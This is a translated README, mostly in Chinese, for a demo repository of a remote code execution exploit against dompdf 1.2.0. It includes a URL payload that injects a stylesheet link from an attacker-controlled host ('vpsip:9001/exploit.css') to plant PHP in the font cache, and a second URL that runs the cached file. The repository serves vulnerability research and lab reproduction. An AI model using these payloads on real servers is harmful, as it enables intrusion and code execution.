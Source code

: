 # RCE exploit for dompdf

该存储库包含一个使用 dompdf 1.2.0 的易受攻击的演示应用程序和一个通过 ttf+php 多语言文件实现远程代码执行的漏洞利用程序。

![Exploit Overview](exploit/overview.png)

分析文章:https://positive.security/blog/dompdf-rce

## Instructions

1. application文件夹为漏洞环境，需要使用php7.0环境

2. 调用远程css，写入恶意php代码
```
http://localhost:9000/index.php?pdf&title=<link rel=stylesheet href='http://vpsip:9001/exploit.css'>
```

3. 访问缓存的php "font"文件并执行phpinfo()
```
http://localhost:9000/dompdf/lib/fonts/exploitfont_normal_3f83639933428d70e74a061f39009622.php
```
该项目转载自https://github.com/positive-security/dompdf-rce并翻译。
